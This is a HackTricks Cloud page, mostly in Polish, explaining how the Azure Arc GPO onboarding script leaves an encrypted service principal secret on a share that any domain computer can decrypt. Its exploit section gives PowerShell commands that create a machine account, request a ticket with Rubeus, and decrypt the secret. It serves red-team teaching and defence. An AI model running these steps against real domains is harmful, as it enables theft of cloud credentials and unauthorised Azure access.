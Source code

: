 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc umożliwia integrację nowych wewnętrznych serwerów (serwery dołączone do domeny) z Azure Arc za pomocą metody obiektów zasad grupy (GPO). Aby to ułatwić, Microsoft dostarcza zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury onboardingu. W pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 i AzureArcDeployment.psm1.

Po uruchomieniu skrypt DeployGPO.ps1 wykonuje następujące czynności:

1. Tworzy GPO onboardingu serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt onboardingu EnableAzureArc.ps1 do wyznaczonego udziału sieciowego utworzonego na potrzeby procesu onboardingu, który zawiera również pakiet instalacyjny Windows.

Podczas uruchamiania tego skryptu, administratorzy systemów muszą podać dwa główne parametry: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Dodatkowo wymaga innych parametrów, takich jak domena, FQDN serwera hostującego udział oraz nazwa udziału. Dalsze szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą być również dostarczone do skryptu.

Szyfrowany sekret jest generowany w katalogu AzureArcDeploy na określonym udziale przy użyciu szyfrowania DPAPI-NG. Szyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest wykonywane przez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako wejściami. Deskryptor składa się z SID-ów grupy komputerów domenowych i kontrolerów domeny, co zapewnia, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń kontrolerów domeny i komputerów domenowych, jak zauważono w komentarzach skryptu.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Mamy następujące warunki:

1. Sukcesywnie przeniknęliśmy do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia kontroli nad kontem komputera w Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta maszyny w środowisku AD. Jedną z najczęstszych jest wykorzystanie kwoty konta maszyny. Inną metodą jest kompromitacja konta maszyny poprzez podatne ACL lub różne inne błędne konfiguracje.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Gdy konto maszyny zostanie uzyskane, możliwe jest uwierzytelnienie się za pomocą tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub użyć pass-the-ticket z Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Mając TGT dla naszego konta komputera przechowywane w pamięci, możemy użyć następującego skryptu do odszyfrowania sekretu głównego usługi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Na tym etapie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany w tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Plik ten zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia się jako skompromitowany service principal.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
